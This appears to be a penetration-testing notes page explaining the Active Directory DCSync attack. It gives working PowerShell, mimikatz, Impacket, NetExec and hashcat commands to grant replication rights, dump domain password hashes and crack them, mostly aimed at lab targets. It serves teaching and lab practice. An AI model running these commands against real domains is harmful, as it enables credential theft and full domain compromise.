 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## Concept

AD environments often use multiple DCs for redundancy. These DCs synchronize using **Directory Replication Service Remote Protocol (DRSR)**. **DCSync** is a late-phase attack that allows an attacker to **impersonate a DC** and then dump `ntds.dit`.

> _DCs do **not verify the source** of a replication request. They only check that the **Security Identifier (SID)** used has appropriate privileges._

To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights**:

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

These rights are **granted by default** to `Domain Admins`, `Enterprise Admins`, and `Administrators`.

> _If we have **`WriteDacl`** rights over an account, we can assign **DCSync rights** to it. For instance, the `Windows Exchange Permissions`_ _group has **DCSync rights**. For an example of a DCSync attack using the `WriteDacl` permission see_ [_Forest_](../../../boxes/easy/forest.md#privilege-escalation)_._

## Attack

{% tabs %}
{% tab title="Windows" %}
We can enumerate permissions using an elevated CMD or PS session.

```powershell
# Command Prompt
dsacls "DC=domain,DC=local"
# PowerShell
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```

We can assign DCSync rights manually or automatically using [PowerView](../tools/powerview.md) or `DCSync.py`.

> _The manual way is explained_ [_here_](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)_._

{% code overflow="wrap" %}
```powershell
# Manually
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"

# PowerView
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}

Once the rights have been assigned, we can perform the attack with [`mimikatz`](../tools/mimikatz.md).

```powershell
# Mimikatz (PS script)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# Mimikatz (binary)
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator
```

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}


We can assign DCSync rights using `DCSync.py`.

{% code overflow="wrap" %}
```bash
# DCSync.py
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}

We can also perform the attack with [`NetExec`](dcsync.md#netexec) or [Impacket](../tools/impacket.md)'s `secretsdump` script.

```bash
# NetExec
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator

# Impacket's secretsdump
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```

> _For an example of a DCSync attack using `DCSync.py` and `secretsdump.py` see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_. For an example of a DCSync attack using NetExec see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack)_._

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

* An in-depth article about DCSync from Altered Security ([article](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection))
* What `impacket-secretsdump` does behind the scenes ([video](https://www.youtube.com/watch?v=QfyZQDyeXjQ))
